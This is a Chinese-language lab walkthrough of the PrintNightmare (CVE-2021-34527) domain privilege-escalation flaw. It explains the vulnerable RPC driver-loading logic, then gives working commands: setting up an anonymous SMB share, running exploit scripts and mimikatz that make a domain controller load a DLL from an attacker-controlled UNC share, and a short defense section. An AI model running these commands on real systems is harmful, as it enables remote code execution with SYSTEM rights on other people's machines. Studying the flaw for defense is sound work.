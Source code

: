 # CVE-2021-34527: PrintNightmare域内提权

- 域控 ip：192.168.72.21，hostname：dc01
- 域内攻击者机器 ip：192.168.72.158，hostname：WIN10-01
- 攻击者 kali 机器 ip：192.168.72.162

如果目标机器开启 Print Spooler 服务，那么此漏洞允许攻击者将代码注入到 Print Spooler 服务的进程 spoolsv.exe 中，以 system 权限执行。

### 漏洞原理

ValiadteObjectAccess是打印机服务用来检查管理员权限的函数，如果用户传入a4的值满足_bittest(&a4,0xf)==0时，权限检查函数即将不被调用。

绕过检查权限的函数之后，函数会解析我们传入的DRIVER_INFO_2结构体

```
typedef struct _DRIVER_INFO_2 {
  DWORD  cVersion;
  LPTSTR pName;
  LPTSTR pEnvironment;
  LPTSTR pDriverPath;
  LPTSTR pDataFile;
  LPTSTR pConfigFile;
} DRIVER_INFO_2, *PDRIVER_INFO_2;


成员
cVersion
为其编写驱动程序的操作系统版本。 支持的值为 3。

pName
指向以 null 结尾的字符串的指针，该字符串指定驱动程序的名称 (例如“QMS 810”) 。

pEnvironment
指向以 null 结尾的字符串的指针，该字符串指定 (为其编写驱动程序的环境，例如 Windows x86、Windows IA64 和 Windows x64) 。

pDriverPath（设备驱动程序）
指向以 null 结尾的字符串的指针，指定包含设备驱动程序 (的文件的文件名或完整路径和文件名，例如“c:\drivers\pscript.dll”) 。

pDataFile（驱动程序数据）
指向以 null 结尾的字符串的指针，该字符串指定包含驱动程序数据的文件名或完整路径和文件名， (例如“c：\drivers\Qms810.ppd”) 。

pConfigFile（设备驱动程序配置）
指向以 null 结尾的字符串的指针，该字符串指定设备驱动程序配置.dll (的文件名或完整路径和文件名，例如“c:\drivers\Pscrptui.dll”) 。
```

RpcAddPrinterDriver的执行流程如下：

1. 将pDriverPath、pDataFile、pConfigFile指定的文件拷贝到C:\Windows\System32\spool\drivers\x64\3\new下，然后再拷贝到C:\Windows\System32\spool\drivers\x64\3下
2. 加载C:\Windows\System32\spool\drivers\x64\3\pConfigFile.dll和C:\Windows\System32\spool\drivers\x64\3\pDriverPath.dll（在此之前调用ValidateDriverInfo检查是否为本地文件，但是pDataFile可以是远程文件）

漏洞利用流程：

1. 第一次调用RpcAddPrinterDriver，使用UNC路径指定pDataFile为远程计算机上的恶意文件，如：\10.211.55.7\share\Evil.dll，此时Evil.dll被拷贝到目标机器上的C:\Windows\System32\spool\drivers\x64\3\Evil.dll下
2. 第二次调用RpcAddPrinterDriver，使用本地路径指定pConfigFile为刚才复制的C:\Windows\System32\spool\drivers\x64\3\Evil.dll，此时这个黑dll文件将被加载

但是此问题会出现bug：CopyFile(from, to)函数用于将from文件拷贝到to，但是当from和to是同一个文件，则会导致读写访问冲突，在漏洞利用流程的第二次调用RpcAddPrinterDriver会出现这个问题，拷贝的源文件地址和目标地址都是C:\Windows\System32\spool\drivers\x64\3\Evil.dll

解决此bug：当监控打印机行为时，打印机会对新添加的打印机驱动文件进行备份，到C:\Windows\System32\spool\drivers\x64\3\old*\文件夹下（此星号是数字），所以第二次调用RpcAddPrinterDriver时，传入pConfigFile为C:\Windows\System32\spool\drivers\x64\3\old\*\Evil.dll即可

### 漏洞实验

##### 检测是否开放MS-RPRN服务

```
python3 rpcdump.py @192.168.72.163 | grep MS-RPRN
```

##### linux创建smb服务

目的是为了让目标访问到Evil.dll

```
修改SMB配置文件/etc/samba/smb.conf：
[global]
map to guest = Bad User
server role = standalone server
user share allow guests = yes
idmap config* : backend=tdb
smb ports=445

[smb]
comment=Samba 
path=/tmp/
guest ok=yes
read only=no
browsable=yes
```

启动smb服务

```
#启动smb服务
service smbd start
service smbd status
```

##### windows创建smb服务

```
mkdir C:\share\
icacls C:\share\ /T /grant "ANONYMOUS LOGON":r
icacls C:\share\ /T /grant Everyone:r
powershell.exe New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
```

##### CVE-2021-1675.py 脚本攻击

```
python CVE-2021-1675.py HACK.com/administrator:p-0p-0p-0@192.168.72.21 \\192.168.72.158\share\demon.dll

python printnightmare.py -dll \\192.168.72.158\share\demon.dll administrator:p-0p-0p-0@192.168.72.21
```

![image-20250205160309536](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250205160309536.png)

这里可以看到我的环境下虽然能上传 dll，但是加载不了。

![image-20250205160343121](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250205160343121.png)

##### mimikatz攻击

```
mimikatz.exe "misc::printnightmare /server:192.168.72.163 /library:\\192.168.72.158\share\demon.x64.dll"
mimikatz.exe "misc::printnightmare /server:10.211.55.14 /library:\\10.211.55.7\share\1.dll"
```

### 防御

打补丁和禁用 PrintSpooler服务（打开服务---->启用类型改为禁用）。



